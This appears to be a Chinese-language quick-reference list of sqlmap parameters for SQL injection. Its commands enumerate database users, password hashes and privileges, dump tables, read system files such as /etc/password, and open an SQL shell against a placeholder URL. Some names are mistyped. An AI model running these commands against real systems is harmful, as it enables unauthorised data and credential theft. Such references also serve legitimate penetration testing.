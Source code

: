 常用参数：

(1)判断当前用户是否是dba:  ./sqlmap.py -u "url" --is-dba -v 1

(2)列出数据库管理系统用户：./sqlmap.py -u "url" --users -v 0

(3)数据库用户密码(hash):

./sqlmap.py -u "url" --passwords -v 0

./sqlmap.py -u "url" --passwords -U sa -v 0

(4)查看用户权限：

./sqlmap.py -u "url" --privileges -v 0

./sqlmap.py -u "url" --privileges -U postgres -v 0

(5)列出数据库：

./sqlmap.py -u "url" --dbs -v 0

(6)列出数据库表：

./sqlmap.py -u "url" --tables -D "information_scheam"

(7)列出表中的列名：

./sqlmap.py -u "url" --columns -T "user" -D "mysql" -v 1

(8)列出指定列的内容：

./sqlmap.py -u "url" --dump -T "users" -D "testdb" -C “指定字段”  

指定范围：

./sqlmap.py -u "url" --dump -T "users" -D "testdb" --start 2 --stop 4 -v 0

(9)列出所有数据库，所有表内容:

./sqlmap.py -u "url" --dump-all -v 0

只列出用户自己新建的数据库和表的内容：

./sqlmap.py -u "url" --dump-all --exclude-sysdbs -v 0

(10)读取文件内容[load_file(函数)]：

./sqlmap.py -u "url" --file /etc/password

(11)执行SQL:

./sqlmap.py -u "url" --sql-shell

(12)指定参数：

./sqlmap.py -u "url" -p "id" -v 1

(13)POST提交：

./sqlmap.py -u "url" --method POST --data "id=1"

(14)COOKIE提交：

./sqlmap.py -u "url" --cookie "id=1" -v 1
